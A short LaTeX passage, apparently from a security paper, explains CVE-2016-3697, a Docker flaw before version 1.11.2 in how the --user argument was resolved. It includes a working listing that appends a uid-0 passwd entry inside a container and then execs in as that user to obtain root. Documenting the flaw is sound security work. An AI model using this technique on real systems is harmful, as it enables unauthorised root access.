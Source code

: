 \subsection{CVE--2016--3697}

Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}[caption={Override \lstinline{root} user in container.},captionpos=b]
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it -u 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}
